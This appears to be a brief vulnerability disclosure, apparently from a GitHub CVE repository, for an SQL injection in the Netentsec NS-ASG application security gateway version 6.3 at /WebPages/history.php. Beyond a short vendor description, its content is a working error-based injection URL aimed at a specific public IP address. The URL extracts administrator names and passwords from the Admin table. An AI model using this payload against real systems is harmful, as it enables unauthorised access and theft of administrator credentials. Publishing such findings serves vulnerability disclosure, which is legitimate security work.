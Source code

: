 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /WebPages/history.php


https://1.85.53.53/WebPages/history.php?uid=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))


<img width="718" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/fb09a12c-0909-4589-9beb-f3b0764726b8">

